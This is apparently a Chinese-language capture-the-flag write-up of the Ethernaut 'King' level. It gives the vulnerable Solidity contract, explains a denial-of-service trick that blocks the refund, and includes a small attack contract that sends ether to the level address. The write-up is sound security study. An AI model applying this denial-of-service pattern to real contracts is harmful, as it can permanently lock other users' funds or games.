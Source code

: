 # King

## 题目

目标：

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## 分析

这道题和之前遇到的这个一模一样，原理见[链接](https://www.levi104.com/2022/12/18/09.%E5%AE%89%E5%85%A8%E5%AE%A1%E8%AE%A1/11.%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%94%BB%E5%87%BB/)。

在本道题，获取题目实例之后，查看prize是：1000000000000000Wei。

![image-20221223131732836](09.King/image-20221223131732836.png)

那么我们就需要至少发送1000000000000001Wei才可以成为新王。关键：用合约发送1000000000000000Wei，并且此合约没有fallback和receive函数

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    function attack() public payable {
        address(0x24fF7e183ce72d22fD8773Dd751bbcF482B51656).call{value: uint256(1000000000000001)}("");
    }
}
```

## 做题

部署合约，获取初始状态

![image-20221223131732836](09.King/image-20221223131732836.png)

msg.value设置为1000000000000000Wei，调用attack函数。成功修改_king和prize

![image-20221223132308145](09.King/image-20221223132308145.png)

注意：attack的时候需要调高调用gas，否则交易失败

![image-20221223132955273](09.King/image-20221223132955273.png)

通过

![image-20221223132331433](09.King/image-20221223132331433.png)
